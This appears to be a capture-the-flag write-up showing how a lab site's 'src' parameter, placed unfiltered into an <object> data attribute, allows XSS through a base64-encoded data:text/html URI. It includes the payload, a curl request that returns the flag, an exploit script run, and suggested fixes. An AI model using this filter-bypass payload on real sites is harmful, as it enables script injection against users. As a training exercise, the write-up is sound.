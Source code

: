 # XSS Data parameter

## Exploitation

On the homepage, we can see a link on an image

```html
...
	<p>
        <br/>
        <br/>
        <br/>
        <a href="?page=media&src=nsa"><img src="images/nsa_prism.jpg" alt="" /></a>
    </p>
```

When we click on it, we go to a page `http://192.168.1.48/?page=media&src=nsa` with the same image

It take the image name on the GET parameter?

The image is not in a `<img>` but in `<object>`

```html
<object data="http://192.168.1.48/images/nsa_prism.jpg"></object>
```

What is an object balise?

> L'élément HTML <object\> représente une ressource externe qui peut être interprétée comme une image, un contexte de navigation imbriqué ou une ressource à traiter comme un plugin.
>
> <cite>https://developer.mozilla.org/fr/docs/Web/HTML/Element/object</cite>

Also, we can see in the header request we can inject html, not just images. Because the `<object>` don't have `type` attribute to force the type

> type
>
>    Le type MIME de la ressource définie par  data. Au moins un attribut data et un attribut type doivent être définis.
>
> <cite>https://developer.mozilla.org/fr/docs/Web/HTML/Element/object</cite>

```
Accept text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
```

The `src` GET parameter is used to fill the `data` object attribute. We need to inject other data (html or script) to execute

The way to inject html on object `data` attribute is to encode the html in base64 and use this syntax:

```html
<object data="data:text/html;base64,encoded_payload"></object>
```

(https://www.paladion.net/blogs/bypass-xss-filters-using-data-uris)

Let's encode a little javascript payload

```html
<script>alert("coucou");</script>
```

In base64:

```
$ echo "<script>alert("coucou");</script>" | openssl base64
PHNjcmlwdD5hbGVydChjb3Vjb3UpOzwvc2NyaXB0Pgo=
```

Ok, the parameter payload will be:

```
src="data:text/html;base64,PHNjcmlwdD5hbGVydChjb3Vjb3UpOzwvc2NyaXB0Pgo="
```

```
$ curl 'http://192.168.1.48/?page=media&src=%22data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=%22' | grep flag
<center><h2 style="margin-top:50px;"> The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center><table style="margin-top:-68px;"></table>				</div>
```

script it!

```
$ ./exploit.py          
 The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```

## How to fix it?

- Using the attribute `type` for `<object>` to force only images.
- Not use `<object>` but `<img>` instead, it's better for images on html
- Also get the full path of the image in the parameter, not just a short name
